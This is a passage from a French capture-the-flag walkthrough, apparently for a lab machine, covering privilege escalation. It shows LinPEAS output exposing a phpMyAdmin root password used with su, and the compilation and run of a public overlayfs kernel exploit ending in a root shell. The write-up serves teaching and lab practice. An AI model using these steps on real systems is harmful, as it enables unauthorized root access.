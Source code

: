 ```
146807   44 -rwxr-xr-x   1 ica      ica         41284 Mar 19  2017 /usr/bin/passwd
```

On ne pourra pas changer le mot de passe des comptes à moins d'être root car le binaire n'a pas son bit setuid.

LinPEAS fouille dans les scripts PHP présents sur le disque et nous remonte un mot de passe :

```
╔══════════╣ Searching passwords in config PHP files
$cfg['Servers'][$i]['AllowNoPassword'] = true;
$cfg['Servers'][$i]['password'] = 'roottoor';
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['Servers'][$i]['AllowNoPassword'] = false;
$cfg['Servers'][$i]['nopassword'] = false;
$cfg['ShowChgPassword'] = true;
```

Il correspond à l'installation du *phpMyAdmin*, dans `/phpmy/config.inc.php`.

Ce mot de passe permet de passer root via `su`.

On peut aussi exploiter la faille `overlayfs` qui n'est pas spécifique à une architecture :

[Linux Kernel 3.13.0 &lt; 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation - Linux local Exploit](https://www.exploit-db.com/exploits/37292)

```console
www-data@indishell:/tmp$ gcc -o overflayfs overflayfs.c 
www-data@indishell:/tmp$ ./overflayfs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
